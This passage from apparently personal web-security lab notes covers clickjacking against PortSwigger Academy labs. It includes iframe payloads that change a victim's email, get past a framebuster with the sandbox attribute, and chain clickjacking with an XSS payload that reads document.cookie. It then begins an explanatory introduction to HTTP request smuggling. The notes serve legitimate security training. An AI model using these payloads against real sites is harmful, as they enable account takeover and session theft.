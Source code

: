 	```
	<div>Click me</div>
	<iframe src="https://ac5b1f2a1ed452ce80681d4c00a30035.web-security-academy.net/email?email=evil@address.com"></iframe>
	```

### Bypassing the `framebuster`.
A framekiller, also known as a framebuster or framebreaker, is similar to the X-Frame Option and is a piece of JavaScript code that prevents elements of a webpage from being loaded into and displayed in a frame. The JavaScript code validates whether the current window is the main window. If it is not the main window, the page is blocked from being displayed.

- If the frame is blocked by a `framebuster` policy, then we can try to add the `sandbox` param to the iframe.

	```
	<div>Click me</div>
	<iframe src="https://aca91fbd1fac8e7e804b5daa0051000d.web-security-academy.net/email?email=evil@address.com" sandbox="allow-forms"></iframe>
	```

### Chaining `clickjacking` with `XSS`

```
<div>Click me</div>
<iframe
src="https://ace51f8c1eab4d0c805c648900f500ce.web-security-academy.net/feedback/?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

# HTTP Request Smuggling
https://portswigger.net/web-security/request-smuggling
## Intro to HTTP Request Smuggling
Today's web applications frequently employ chains of HTTP servers between users and the ultimate application logic. Users send requests to a front-end server (sometimes called a load balancer or reverse proxy) and this server forwards requests to one or more back-end servers.

![smuggling001](https://portswigger.net/web-security/images/http-request-smuggling.svg)

When the front-end server forwards HTTP requests to a back-end server, it typically sends several requests over the same back-end network connection, because this is much more efficient and performant. In this situation, it is crucial that the front-end and back-end systems agree about the boundaries between requests. Otherwise, an attacker might be able to send an ambiguous request that gets interpreted differently by the front-end and back-end systems:

![smuggling002](https://portswigger.net/web-security/images/smuggling-http-request-to-back-end-server.svg)

Here, the attacker causes part of their front-end request to be interpreted by the back-end server as the start of the next request. It is effectively prepended to the next request, and so can interfere with the way the application processes that request. This is a request smuggling attack, and it can have devastating results.
